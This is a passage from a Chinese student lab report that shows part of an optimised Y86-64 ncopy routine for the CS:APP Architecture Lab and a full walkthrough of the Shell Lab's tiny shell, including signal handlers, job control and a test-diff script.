	mrmovq 8(%rdi), %r11
	mrmovq 16(%rdi), %r12
	mrmovq 24(%rdi), %r13
	rmmovq %r10, (%rsi)
	rmmovq %r11, 8(%rsi)
	rmmovq %r12, 16(%rsi)
	rmmovq %r13, 24(%rsi)
	andq %r10, %r10
	jle next1
	iaddq $1, %rax
next1:
	andq %r11, %r11
	jle next2
	iaddq $1, %rax
next2:
	andq %r12, %r12
	jle next3
	iaddq $1, %rax
next3:
	andq %r13, %r13
	jle next4
	iaddq $1, %rax
next4:
	iaddq $32, %rdi
	iaddq $32, %rsi
	iaddq $-4, %rdx
test:
	jg Loop2
	jmp Done

first:
	mrmovq (%rdi), %r10
	rmmovq %r10, (%rsi)
	andq %r10, %r10
	jle next
	iaddq $1, %rax
next:
	iaddq $8, %rdi
	iaddq $8, %rsi
	iaddq $-1, %rdx
	iaddq $-1, %r8
	jg first
	andq %rdx, %rdx
	jmp test
```

上述代码仍然是先判断复制长度 `%rdx` 的大小是否为 4 的倍数。如果是 4 的倍数，则直接进入循环并一直运行下去。如果不是 4 的倍数，则首先让其上限次数为 3 的循环，直到其运行结束之后成为 4 的倍数，然后再进入到主循环之中运行。运行测试程序 `./benchmark.pl` 之后查看程序性能：


可以看到程序性能有一定的提升。按理说，4 路循环的程序性能提升应该不止如此，可能原因就是在于引入 `%r8` 这个新的计数器，导致引入了额外的重复计数器，导致做了些额外的计算。同时在小循环中，仍然存在比较严重的数据相关问题。主循环中的性能提升是毋庸置疑的，因此需要解决小循环中的问题。

因此在保证不超过程序的字节长度限制下，我们采取了 10 路循环展开。同时优化了非整倍数部分的操作。原先的操作是先执行余数部分的循环操作，现在我们先执行主循环，当剩余的循环次数不足 10 次的时候，再依此执行剩余部分的操作。同时，剩余操作也不再采用循环进行，因为其性能会比较低，所以将其依此展开。

现在的问题在于，当剩余的循环次数不足 10 次的时候，该如何判断剩余次数呢？因为剩余次数将会有 `[1 - 9]` 种选择。因此我们不得不依此对其判断。如果采用线性搜索的话，即从 `1` 判断到 `9`，这样的线性搜索的时间复杂度是 $O(n)$。由于判断的时候，是通过大小符号来进行比较的，因此我们可以设计出一个树形结构，以二叉树为基础结构对数据进行判断。这样搜索的时间复杂度就会降到 $O(\log n)$，虽然在这里 $n=10$，但是其比较次数的优化是明显的。因此得到下述树形结构：


```assembly
root:
	iaddq $7, %rdx
	jl label012
	jg label456789
	je last3
label012:
	iaddq $2, %rdx
	je last1
	jg last2
	ret
label456789:
	iaddq $-3, %rdx
	je last6
	jg label789
	iaddq $1, %rdx
	je last5
	jl last4
label789:
	iaddq $-2, %rdx
	je last8
	jl last7

last9:
	mrmovq 64(%rdi), %r10
	rmmovq %r10, 64(%rsi)
	andq %r10, %r10
last8:
	mrmovq 56(%rdi), %r10
	jle next8_2
	iaddq $1, %rax		# add for last9
next8_2:
	rmmovq %r10, 56(%rsi)
	andq %r10, %r10
last7:
	mrmovq 48(%rdi), %r10
	jle next7_2:
	iaddq $1, %rax 		# add for last8
next7_2:
	rmmovq %r10, 48(%rsi)
	andq %r10, %r10
last6:
	mrmovq 40(%rdi), %r10
	jle next6_2:
	iaddq $1, %rax		# add for last7
next6_2:
	rmmovq %r10, 40(%rsi)
	andq %r10, %r10
last5:
	mrmovq 32(%rdi), %r10
	jle next5_2
	iaddq $1, %rax 		# add for last 6
next5_2:
	rmmovq %r10, 32(%rsi)
	andq %r10, %r10
last4:
	mrmovq 24(%rdi), %r10
	jle next4_2
	iaddq $1, %rax		# add for last5
next4_2:
	rmmovq %r10, 24(%rsi)
	andq %r10, %r10
last3:
	mrmovq 16(%rdi), %r10
	jle next3_2
	iaddq $1, %rax		# add for last4
next3_2:
	rmmovq %r10, 16(%rsi)
	andq %r10, %r10
last2:
	mrmovq 8(%rdi), %r10
	jle next2_2
	iaddq $1, %rax		# add for last3
next2_2:
	rmmovq %r10, 8(%rsi)
	andq %r10, %r10
last1:
	mrmovq (%rdi), %r10
	jle next1_1
	iaddq $1, %rax 		# add for last2
next1_1:
	rmmovq %r10, (%rsi)
	andq %r10, %r10
	jle Done
	iaddq $1, %rax		# add for last1
```

除了上述的搜索树，我们还将剩余次数的循环全部展开了。在展开的时候，我们将剩余 9 次排在最上面，依此往下，这样可以让其顺序执行，使得我们可以跳转到想要次数的分支上，也能够完成相应次数的执行。同时，为了能够充分利用 `mrmovq` 指令和 `rmmovq` 中的气泡，我们将代码进行移动，将上一次分支的值正负判断移动到当前分支来执行（因为是顺序执行的，因此移动代码之后，这段移动后的代码还是会被执行，并不会影响判断减少）。同时通过搜索树的跳转，使得跳转过来之后，条件码的设置能够保证当前分支不会执行上一个分支的值正负判断（即跳转过来之后，由于预先设置过了条件码，所以能够使得 `jle` 分支判断是正确的，从而跳过 `iaddq` 指令）。

通过该搜索树之后，可以发现程序的性能大大提升，但是程序的正确性出现了一些问题：


通过思考和观察后发现，是因为上述搜索树中在跳转至 `last2` 的时候，是以条件码大于 0 的条件而跳转的，因此导致我们在跳转到 `last2` 分支的时候，此时的 `jle next2_2` 条件是不满足的，导致 `iaddq $1, %rax` 指令会被执行，而这条指令实际上是为上一个 `last3` 分支而执行的。因此程序的正确性自然会出现错误。为了解决这个错误，我们需要确保在跳转至除了 `last9` 分支以外的所有分支时，都需要保证当前的条件码是小于等于 0 的，这样才能够成功跳过为上一个分支而执行的 `iaddq $1, %rax`，因此对其进行修改如下：

```assembly
label012:
	iaddq $2, %rdx
	je last1
	iaddq $-1, %rdx
	je last2
	ret
```

运行测试程序 `./benchmark.pl` 之后查看程序性能：



可以看到，修改之后的程序正确性以及性能都达到了实验要求。另外，上述的解决方案主要是解决 `ncopy.ys` 中的代码修改，并没有对 `pipe-full.hcl` 的结构进行大规模的修改。事实上，SEQ 流水线的处理器也有不少可以优化的地方。例如分支预测，数据相关的结构和冒险冲突的优化。由于对代码修改足以完成实验要求，因此不再对处理器的结构进行优化。

### Shell Lab

首先获取实验框架，然后解压：

```bash
wget http://csapp.cs.cmu.edu/3e/shlab-handout.tar
tar -xvf shlab-handout.tar
rm shlab-handout.tar
```

#### 1. `sigchld_handler` 函数

`sigchld_handler` 函数用来处理 `SIGCHLD` 信号，`SIGCHLD` 信号产生有以下这些条件：

- 子进程终止时会向父进程发送 `SIGCHLD` 信号，告知父进程回收自己，但该信号的默认处理动作为忽略，因此父进程仍然不会去回收子进程，需要捕捉处理实现子进程的回收。
- 子进程收到 `SIGSTOP` 信号后被强制结束
- 子进程暂停运行，接受到 `SIGCONT` 后唤醒时

因此根据提示，可以在 `sigchld_handler` 中通过使用一个函数 `waitpid` 并且搭配到参数 `WUNTRACED` 和 `WNOHANG` 来获取信号对应的进程号 `pid` 和状态 `status`。`WNOHANG` 选项使得 `waitpid` 函数变为同步函数，如果没有僵死进程就能立刻返回；`WUNTRACED` 选项使得这一函数能够处理暂停的进程。捕捉这些信息后再判断信息的类别：

- 如果在捕捉信息的过程中发现子进程是暂停运行，则需要将子进程的状态改为暂停 `ST`
- 如果在捕捉信息的过程中发现子进程是结束运行，则需要将子进程从任务 `jobs` 列表中删除

```c
void sigchld_handler(int sig)
{
    int jid, status;
    pid_t pid;
    struct job_t* job;
    
    // In sigchld handler, use exactly one call to waitpid.
    while ((pid = waitpid(-1, &status, WNOHANG | WUNTRACED)) > 0) {
        jid = pid2jid(pid);
        job = getjobpid(jobs, pid);
        // judge child process status
        if (WIFSTOPPED(status)) {   // suspend
            printf("Job [%d] (%d) stopped by signal %d\n", jid, pid, WSTOPSIG(status));
            job->state = ST;
        }
        else {      // stop
            deletejob(jobs, pid);
            if (WIFSIGNALED(status)) {
                printf("Job [%d] (%d) terminated by signal %d\n", jid, pid, WTERMSIG(status));
            }
        }
    }
    return;
}
```

#### 2. `sigint_handler` 函数

`sigint_handler` 函数用来处理 `SIGINT` 信号。这个函数比较简单，只需要获取当前前台的任务 `pid`，然后调用 `kill(-pid, SIGINT)` 函数来向进程发送信号即可。

```c
void sigint_handler(int sig)
{
    pid_t pid = fgpid(jobs);
    if (pid) {
        kill(-pid, SIGINT);
    }
    return;
}
```

#### 3. `sigtstp_handler` 函数

`sigtstp_handler` 函数用来处理 `SIGTSTP` 信号。同理，只需要获取当前前台的任务 `pid`，然后调用 `kill(-pid, SIGTSTP)` 函数来向进程发送信号即可。

```c
void sigtstp_handler(int sig)
{
    pid_t pid = fgpid(jobs);
    if (pid) {
        kill(-pid, SIGTSTP);
    }
    return;
}
```

#### 4. `waitfg` 函数

根据实验提示

> In waitfg, use a busy loop around the sleep function.

因此可以这样实现：

```c
void waitfg(pid_t pid)
{
    struct job_t* job = getjobpid(jobs, pid);
    // In waitfg, use a busy loop around the sleep function
    while (job && job->state == FG) {
        sleep(1);
    }
    return;
}
```

#### 5. `do_bgfg` 函数

首先，`bg` 和 `fg` 指令的输入格式一般都是 `bg/fg pid` 或者 `bg/fg %jid`。因此在调用 `do_bgfg` 函数时，重点需要考察的就是第 1 个参数（这里不考虑有多个参数，因此程序健壮性比较差）

- 如果没有第一个参数，那么直接跳过
- 如果给出的第一个参数是进程号 `pid`，则根据 `pid` 获取任务 `job`
- 如果给出的第一个参数是 `jid`，则根据 `jid` 获取任务 `job`
- 如果给出的第一个参数格式不匹配，则直接跳过

接着根据对应的指令，更改进程的状态：如果是 `bg` 指令，则将进程状态改为 `BG`；如果是 `fg` 指令，则将进程状态改为 `FG`。然后需要用 `SIGCONT` 信号唤醒进程，这里注意在 `kill` 函数中需要使用 `-pid` 来替代 `pid`。最后，如果是 `fg` 指令的话，还需要调用 `waitfg` 来等待前台进程结束。

```c
void do_bgfg(char **argv)
{
    if (argv[1] == NULL) {
        printf("%s command requires PID or %%jobid argument\n", argv[0]);
        return;
    }
    struct job_t* job;
    int jid;
    pid_t pid; 
    // if argv[1] contains a job id
    if (sscanf(argv[1], "%%%d", &jid) > 0) {    // `%%%d` -> %jid
        job = getjobjid(jobs, jid);
        if (job == NULL) {
            printf("%%%d: No such job\n", jid);
            return;
        }
    }
    // if argv[1] contains a process id
    else if (sscanf(argv[1], "%d", &pid) > 0) {      // `%d` -> pid
        job = getjobpid(jobs, pid);
        if (job == NULL) {
            printf("(%d): No such process\n", pid);
            return;
        }
    }
    // argument format error: not a job id or process id
    else {
        printf("%s: argument must be a PID or %%jobid\n", argv[0]);
        return;
    }
    // change job state according to the input command 
    if (strcmp(argv[0], "bg") == 0) {
        job->state = BG;
    }
    else if (strcmp(argv[0], "fg") == 0) {
        job->state = FG;
    }
    // using "-pid" instead of "pid" in the argument to the kill function
    kill(-job->pid, SIGCONT);
    if (strcmp(argv[0], "bg") == 0) {
        printf("[%d] (%d) %s", job->jid, job->pid, job->cmdline);
    }
    else if (strcmp(argv[0], "fg") == 0) {
        waitfg(job->pid);   // only one foreground process allowed
    }
    return;
}
```

#### 6. `bulitin_cmd` 函数

`bulitin_cmd` 函数的实现逻辑其实很简单，只需要判断相应指令即可。

- `quit` 指令：直接调用 `exit(0)` 退出
- `fg` 指令和 `bg` 指令：直接调用 `do_bgfg` 函数并且返回 1
- `jobs` 指令：直接调用 `listjobs` 函数并且返回 1
- 若非上述内置指令，则返回 0

```c
int builtin_cmd(char **argv)
{
    // quit command
    if (strcmp(argv[0], "quit") == 0) {
        exit(0);
    }
    // fg command
    if (strcmp(argv[0], "fg") == 0) {
        do_bgfg(argv);
        return 1;
    }
    // bg command
    if (strcmp(argv[0], "bg") == 0) {
        do_bgfg(argv);
        return 1;
    }
    // jobs command
    if (strcmp(argv[0], "jobs") == 0) {
        listjobs(jobs);
        return 1;
    }
    return 0; /* not a builtin command */
}
```

#### 7. `eval` 函数

`eval` 函数首先要对命令行 `cmdline` 进行解析 `parseline`，得到参数列表 `argv`，同时判断用户使用的是否为 `BG` 命令。如果命令行为空，则直接返回。当参数列表指示命令行不是内置指令时，则需要创建一个新的子进程来运行指令。

根据文档中的提示，在创建一个新的子进程之间，必须调用 `sigprocmask` 来阻塞 `SIGCHLD` 信号，这是因为父进程需要以这种方式阻止 `SIGCHLD` 信号，以避免出现同步竞争问题。所以使用：

```c
// initial mask
sigemptyset(&mask);
// set SIGCHLD mask
sigaddset(&mask, SIGCHLD);
// the parent must use sigprocmask to block SIGCHLD 
// signals before it forks the child
sigprocmask(SIG_BLOCK, &mask, &prev_mask);
```

然后调用 `fork()` 创建子进程。`fork()` 之后，在子进程中执行命令之前，需要调用 `setpgid(0, 0)`，它将子进程放入到一个新的进程组，其组 `id` 与子进程的 `pid` 相同。这样可以确保在前台进程中只有一个进程。并且由于子进程继承了父进程的阻塞向量，因此子进程必须确保在执行新进程之前解除阻塞 `SIGCHLD` 信号。因此在子进程中：

```c
if (pid == 0) {     // child process
    // according to workaround, this ensures that there will 
    // be only one process, your shell, 
    // in the foreground process group
    setpgid(0, 0);
    // Since children inherit the blocked vectors of their parents,
    // the child must be sure to then unblock SIGCHLD 
    // signals before it execs the new program.
    sigprocmask(SIG_SETMASK, &prev_mask, NULL);
    if (execve(argv[0], argv, environ) < 0) {
        printf("%s: Command not found\n", argv[0]);
        exit(0);
    }
}
```

在父进程中，也需要在调用 `addjob` 将子进程加入到工作列表之后调用 `sigprocmask` 来解除阻塞 `SIGCHLD` 信号。因此在父进程中：

```c
else {  // parent process
    addjob(jobs, pid, (bg == 1 ? BG : FG), cmdline);
    // again using sigprocmask after it adds 
    // the child to the job list by calling addjob
    sigprocmask(SIG_SETMASK, &prev_mask, NULL);

    if (!bg) {  // if job is FG job
        waitfg(pid);
    }
    else {      // if job is BG job
        printf("[%d] (%d) %s", pid2jid(pid), pid, cmdline);
    }
} 
```

#### Shell Lab 结果展示

因为本次实验并没有给出一个统一的测试脚本，因此使用一个自己编写的脚本来快速识别程序的正确性。脚本的具体内容如下：

```shell
#! /bin/bash

touch tsh.out
make test01 > tsh.out
for i in 01 02 03 04 05 06 07 08 09 10 11 12 13 14 15 16
do
    make test$i >> tsh.out
done

sed -i 's|(\b[0-9]*)|(1000)|g;' tsh.out
sed -i 's|(\b[0-9]*)|(1000)|g;' tshref.out

touch diff.out
echo "蓝俊玮 PB20111689" > diff.out
whoami >> diff.out
diff tsh.out tshref.out >> diff.out
```

首先创建一个新的文件 `tsh.out` 来记录 `tsh` 程序的输出结果。首先使用 `make test01` 并且使用重定向符 `>` 将输出覆盖到 `tsh.out` 文件中，紧接着使用一个循环，将后续测试的输出结果追加到 `tsh.out` 文件当中。因为程序每次运行的 pid 不一定会相同，因此将输出信息中的 `(pid)` 部分替换成 `(1000)`，以便于比较。这一点可以通过 `sed sed -i 's|(\b[0-9]*)|(1000)|g;' tsh.out` 完成。最后创建一个新的文件 `diff.out` 文件，并且运行 `diff tsh.out tshref.out > diff.out` 指令，将两个文件的不同信息记录到 `diff.out` 当中，以便于检查程序与参考程序的输出有何不同。

下面便是结果展示（在这里我预先删除了 `tshref.out` 当中的两条 `make` 信息）：


可以看出 `tsh.out` 和 `tshref.out` 之间只有 `/bin/ps` 的运行结果有较大差别，但这是不可避免的。并且可以看出程序 `tsh` 执行 `/bin/ps` 的输出是正常的（只是因为我的实验环境在 WSL 中，而多出了许多无关的内容），因此可以认为 `tsh` 的行为与 `tshref` 达到了一致，因此符合实验要求。

